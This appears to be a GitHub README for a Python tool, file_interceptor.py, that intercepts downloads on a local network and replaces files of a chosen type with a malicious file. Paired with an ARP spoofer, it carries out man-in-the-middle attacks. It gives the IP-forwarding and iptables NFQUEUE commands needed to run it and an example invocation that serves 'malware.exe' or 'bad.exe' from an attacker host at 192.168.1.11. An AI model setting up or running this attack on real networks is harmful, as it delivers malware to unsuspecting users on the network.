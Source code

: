 # File_replacer
It replaces files while downloading, use it with arp-spoofer to perform mitm attacks.

Set iptables and linux ip forwardng rules before using code_injector:


To set linux ip forwarding to true:


echo 1 > /proc/sys/net/ipv4/ip_forward


or


sysctl -w net.ipv4.ip_forward=1

⚠️ Set false or 0 after using code_injector


echo 0 > /proc/sys/net/ipv4/ip_forward


or


sysctl -w net.ipv4.ip_forward=0


To set iptables rule:


iptables -I FORWARD -j NFQUEUE --queue-num 0



⚠️ flush iptables rule after using code_injector


iptables --flush

Usage: file_interceptor.py [options]

Options:
  -h, --help            show this help message and exit
  -m MALACIOUSFILE, --malacious-file=MALACIOUSFILE
                        Enter Malacious file url (eg: -mf
                        http://192.168.1.11/malware.exe
  -f FILETYPE, --file-type=FILETYPE
                        Add file type which you want to replece on download
                        (Eg: -f exe

![Screenshot 2023-01-03 115007](https://user-images.githubusercontent.com/109381227/210309124-287f9e27-1b69-4b75-8cb4-eebc0537fbd3.jpg)

Example: python3 file_interceptor.py -m http://192.168.1.11/bad.exe -f exe

![Screenshot 2023-01-03 115248](https://user-images.githubusercontent.com/109381227/210309176-ef173376-6fa6-4a71-81c1-f6a6b997f160.jpg)

